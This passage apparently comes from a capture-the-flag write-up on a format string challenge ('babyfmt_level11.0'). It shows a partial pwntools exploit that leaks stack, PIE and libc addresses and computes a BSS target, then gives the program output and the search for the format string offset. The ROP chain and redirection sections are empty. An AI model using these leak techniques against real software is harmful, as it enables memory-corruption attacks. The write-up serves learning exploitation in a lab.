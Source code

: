 ```python
libc.address= int(leaked[2], 16) - 0x24083

success(f'RBP Addr      : {rbp_leak:#x}')
success(f'PIE Base Addr : {exe.address:#x}')
success(f'LIBC Base Addr: {libc.address:#x}')
success(f'BSS Address   : {exe.bss():#x}')

target_addr = exe.bss()+0xde0
success(f'Target Address: {target_addr:#x}')


###################################
######## rop chain write ##########
###################################



###################################
######## redirect code exec #######
###################################


io.interactive()
```


**The Result:**

```css
[+] Starting local process '/usr/bin/gdbserver': pid 496
[*] running in new terminal: ['/usr/bin/gdb', '-q', '/host/babyfmt_level11.0_remotelibc', '-x', '/tmp/pwnlib-gdbscript-xj8nmj9y.gdb']
/host/exploit.py:68: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  payload = flat('%184$lx|%185$lx|%195$lx')
[+] RBP Addr      : 0x7ffe6ad4c7e0
[+] PIE Base Addr : 0x55ce64d25000
[+] LIBC Base Addr: 0x7f417cc00000
[+] BSS Address   : 0x55ce64d29020
[+] Target Address: 0x55ce64d29e00
```

### find offset and padlen values


```css
[+] Receiving all data: Done (111B)
[*] Process '/host/babyfmt_level11.0' stopped with exit code 0 (pid 296)
[DEBUG] Received 0x6f bytes:
    b'Here is the result:\n'
    b'Your input is:                              \n'
    b'aaaabaaacaaadaaaeaaaSTART0x6161636161616261END'
[*] Found format string offset: 58
[+] User input starts at  : 58
[+] Needed pads           :3
[+] Numbwritten           :0
```

